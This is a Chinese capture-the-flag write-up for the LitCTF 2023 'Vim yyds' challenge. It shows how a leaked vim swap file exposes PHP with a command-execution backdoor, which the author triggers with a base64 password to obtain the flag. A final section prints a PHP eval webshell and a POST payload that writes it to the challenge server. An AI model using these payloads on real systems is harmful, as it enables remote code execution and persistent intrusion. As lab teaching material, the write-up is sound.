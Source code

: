 [LitCTF 2023\]Vim yyds | NSSCTF](https://www.nssctf.cn/problem/3866)
> [!TIP]
题目涉及vim，并且说泄露了

![image](https://github.com/user-attachments/assets/330c9d3a-8ede-4a7a-acbb-d9a663704952)
搜索相关资料得到
## **Vim**泄露知识
![image](https://github.com/user-attachments/assets/b8067f3f-896e-4191-98aa-e37f8fa6d830)
因此我们的切入点来了
> [!TIP]
尝试访问**.index.php.swp**
Windows电脑上的vim不太好用，我是说有点麻烦，不太好操作
## 使用kali系统用vim来操作
![image](https://github.com/user-attachments/assets/5c34ea41-0a39-4861-b0c5-7986aae6d18d)
访问后会下载相应的文件，我们使用vim打开
> 打开终端

![image](https://github.com/user-attachments/assets/e0380a9b-fbc7-4a85-9e36-697745fbd432)
输入
```
vim -r index.php.swp
```
![image](https://github.com/user-attachments/assets/eb401094-65f3-4ecf-a70b-48ba56709feb)
得到
```
<head>
    <meta charset="UTF-8">
    <style type="text/css">
        body,
        html {
            display: flex;
            align-items: center;
            justify-content: center;
        }

        div.vim {
            display: flex;
            align-content: center;
            vertical-align: middle;
            justify-content: center;
        }

        img {
            border: none;
            width: 8rem;
            height: auto;
        }

        h1.vim_yyds {
            color: #50f728;
            display: flex;
            align-items: flex-start;
            justify-content: center;
            margin-top: 50;
            margin-left: 5px;
        }

        h3.vim_said {
            color: #39c2ff;
            display: flex;
            justify-content: center;
            align-items: center;
        }

        br,
        p {
            font-size: 20;
        }
    </style>
</head>

<body>
    <main>
        <div class="vim">
            <img src="https://www.bing.com/th?id=OSAAS.7B95FA2D97CE022F5E7949F60E350A25&pid=TechQna"></img>
            <h1 class="vim_yyds">
                Vim yyds
            </h1>
        </div>
        <h3 class="vim_said">
            队里师傅说Vim是世界上最好的编辑器，不接受反驳
        </h3>
        <div class="can_can_vim">
            <?php
            error_reporting(0);
            $password = "Give_Me_Your_Flag";
            echo "<p>can can need Vim </p>";
            if ($_POST['password'] === base64_encode($password)) {
                echo "<p>Oh You got my password!</p>";
                eval(system($_POST['cmd']));
            }
            ?>
        </div>
    </main>
</body>
```
## 找到有用的东西在后面的password
> [!IMPORTANT]
可以通过hackbar来post参数，这里的意思是我们要将**Give_Me_Your_Flag**转为base64将password发送

![image](https://github.com/user-attachments/assets/b8e9b736-aced-41c3-a238-48fcb009ce2c)
第一次尝试出问题
![image](https://github.com/user-attachments/assets/416f16c3-693e-423e-8112-6bd4e770dc14)
> 重新传一遍

![image](https://github.com/user-attachments/assets/94003c10-5223-45b2-aad2-8668c3759c2e)
## 得到flag
**NSSCTF{c39b484e-3955-43a2-b57e-1768857cae2c}**
## 别的师傅的方法，使用蚁剑
写入webshell：
```php
<?php eval($_POST[cc]);?>
PD9waHAgZXZhbCgkX1BPU1RbY2NdKTs/Pg==
echo "PD9waHAgZXZhbCgkX1BPU1RbY2NdKTs/Pg==" | base64 -d >cc.php
password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=echo "PD9waHAgZXZhbCgkX1BPU1RbY2NdKTs/Pg==" | base64 -d >cc.php
```
蚁剑连接：http://node6.anna.nssctf.cn:28516/cc.php 密码为cc
我尝试的过程中上传不了webshell，不知道为啥
## 总结
- 学会vim的常见泄露知识
- 使用hackbar来方便的发送post请求